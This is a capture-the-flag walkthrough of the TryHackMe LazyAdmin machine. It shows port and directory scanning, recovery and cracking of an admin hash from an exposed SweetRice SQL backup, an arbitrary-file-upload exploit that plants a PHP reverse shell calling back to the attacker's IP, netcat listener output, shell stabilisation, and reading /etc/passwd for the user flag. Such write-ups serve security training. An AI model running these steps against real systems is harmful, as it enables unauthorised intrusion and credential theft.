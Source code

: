 # THM - LazyAdmin

## IP Address
10.10.131.164

## Write Up
1. do an Nmap scan.
```bash
#make a directory to store where you are going to store you nmap results
mkdir nmap
#scan for open ports and direct results to nmap/initial
nmap -p- -sV -sC -oN nmap/initial 10.10.131.164
```
2. The name results will result as shown:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-23 08:51 UTC
Nmap scan report for ip-10-10-131-164.eu-west-1.compute.internal (10.10.131.164)
Host is up (0.00078s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:DB:6B:30:7D:88 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.22 seconds
```

3. Port 80/http is open. Navigating to it will lead you to a apache page.
<insert ss1>

4. Explore other potential directories with gobuster.
```bash
#install gobuster if you dont have it already
sudo apt install gobuster

#run gobuster with dirbuster wordlists
gobuster dir -u http://10.10.131.164 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

5. You will see that /content is available.
```bash
gobuster dir -u http://10.10.131.164 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

6. Going to http://10.10.131.164/content brings user to a sweetrice page but do not have much details as well. So we will run gobuster again on 10.10.131.164/content
```bash
gobuster dir -u http://10.10.131.164/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

7. You will realise that /content gives more output
```bash
/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
```

8. Running through the files you will realised there is this file over at /content/inc/lastest.txt shows ```1.5.1```. This may be the SweetRice version number.

9. Search for SweetRice Exploits.
```bash
searchsploit sweetrice
```

It will return a few exploits available under version ```1.5.1```. Main exploits are Arbitrary File Upload and PHP code execution.
```bash
---------------------------------- ----------------------------------------
 Exploit Title                    |  Path
                                  | (/usr/share/exploitdb/)
---------------------------------- ----------------------------------------
SweetRice 0.5.3 - Remote File Inc | exploits/php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulner | exploits/php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File  | exploits/php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File  | exploits/php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosu | exploits/php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Requ | exploits/php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Requ | exploits/php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' A | exploits/php/webapps/14184.txt
---------------------------------- ----------------------------------------
```

10. Now we need to find a username and password to run the 2 exploits. Looking further into the files at ```/content/inc``` you will come across an interesting SQL document under ```http://10.10.131.164/content/inc/mysql_backup/```. Download the SQL file and read it through:
```bash
cat Downloads/mysql_bakup_20191129023059-1.5.1.sql 
```

You will notice the PHP code along with the hashed password and username:
```bash
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"
```

11. Run the hashed password over at [CrackStation](https://crackstation.net/) and you will get the password for user ```manager```.
```manager:Password123```

12. go to ```/content/as``` and login with the username and password to verify. Once logged in, start the website.

## Creating Reverse Shell

13. We are now going to use the 2 exploits found earlier. We can either upload the code in the dashboard > ads or we can use a python script to do the uploading.
- [SweetRice 1.5.1 - Arbitrary File Upload Script](https://www.exploit-db.com/exploits/40716)

14. We will also need to create our reverse shell and create a few ext to see which extension SweetRice will accept. In this CTF, .php5 will work.
- [Php Reverse Shell Code](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

You will need to edit part of the scripts. You will need to get your ip addr and edit the IP and PORT section of the code.
```bash
root@kali:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc mq state UP group default qlen 1000
    link/ether 02:40:bb:15:91:a0 brd ff:ff:ff:ff:ff:ff
    inet 10.10.141.19/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3365sec preferred_lft 3365sec
    inet6 fe80::40:bbff:fe15:91a0/64 scope link 
       valid_lft forever preferred_lft forever
```

We will use ```10.10.141.19``` and port ```9001``` (you can choose your own port no.) and edit the following in the PHP script:

```bash
...
$ip = '10.10.141.19';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
...
```

15. Now open another terminal and start listing to port ```9001``` before uploading the php script.
```bash
nc -lvnp 9001
```

16. Run the python script exploit and click on the links to gain shell access.
```bash
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.131.164/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : reshell.php5
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.131.164/content/attachment/reshell.php5
root@kali:~# 
```
Listening Terminal
```bash
root@kali:~# nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.141.19] from (UNKNOWN) [10.10.131.164] 44340
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 12:43:17 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

## Gaining a Stable Shell

17. we will now attempt to gain a stable shell.
- type the following:
```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

- press ```ctrl+z``` to bring shell to foreground

- type:
```bash
stty raw -echo
fg
```

- press ```Enter``` a few times to get back the shell

- type:
```bash
export TERM=xterm
```

- press ```crtl+l``` to get a clean and stable shell.

## Finding users and flags

18. We will now see what users are there in this shell.
```bash
cat /etc/passwd | grep /bin/bash
```

You will see a user called ```itguy```.
```bash
www-data@THM-Chal:/$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
itguy:x:1000:1000:THM-Chal,,,:/home/itguy:/bin/bash
guest-3myc2b:x:998:998:Guest:/tmp/guest-3myc2b:/bin/bash
```

we can move to the itguy directory and capture our first flag.
```bash
cd /home/itguy
cat user.txt
```


